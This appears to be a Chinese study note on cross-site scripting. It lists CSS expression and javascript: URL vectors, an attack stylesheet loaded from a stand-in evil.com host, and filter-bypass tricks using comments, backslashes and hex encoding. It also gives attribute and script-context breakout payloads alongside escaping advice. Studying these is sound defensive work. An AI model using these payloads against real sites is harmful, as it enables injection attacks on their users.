 #### 利用CSS
1. 优点：隐蔽
2. 缺点：各浏览器之间不能通用，甚至同一浏览器不同版本之间不能通用
3. 这种情况下注意过滤style标签和style属性（下面是IE6中才可以）

```
<div style="background-image:url(javascript:alert(1))">

<div style="width:expression(alert(9));">

<style>
        body {background-image: url("javascript:alert(11)");}
</style>

<style>
       @import 'javascript:alert(11)';
</style>

```

* 以下这种更隐蔽

```
attack.css:
p{
    background-image:expression(alert(111));
}

<link rel="stylesheet" href="http://www.evil.com/attack.css">
```

* CSS中绕过过滤：

1. 当利用expression执行跨站代码时，构造全角字符绕过
2. 利用注释                  `<div style="wid/*xss*/th: expres/*xss*/sion(alert(2))"></div>`
3. 样式标签中添加\和\0             `@\0im\port 'javascript:alert(11)';`
4. 样式表（style）也支持\链接的十六进制字符，style属性中的JavaScript、expression被过滤时，可以通过十六进制编码绕过

### 属性值中输出

```
<div id="ads" name="xxx"></div>
<input name="receive_detail" value="xxx" />

" ><script>alert(/xss/)</script>
"></iframe><script>alert(1)</script>
" onclick=alert(1)//
' onclick=alert(1)//
``` 

### 在`<script>`标签内输出

```
<script>var a='xxx'</script>        //单引号
<script>var a="xxx"</script>            //双引号

';alert();//
";alert();//

说明：javascript编码是在引号和/前面加反斜杠，所以要确保变量在双引号中间
<script>var a=escapeJavascript(xxx);</script>
<script>var a=escapeJavascript(1;alert(1));</script>   即<script>var a=1;alert(1);</script> ，还是会执行×
<script>var a='"'+escapeJavascript("1;alert(1)//)+'"';</script>   即<script>var a="\"1;alert(1)//";</script> 无法逃逸引号就不会执行√
这里为什么不能html编码呢？他会先html解码再执行script
```
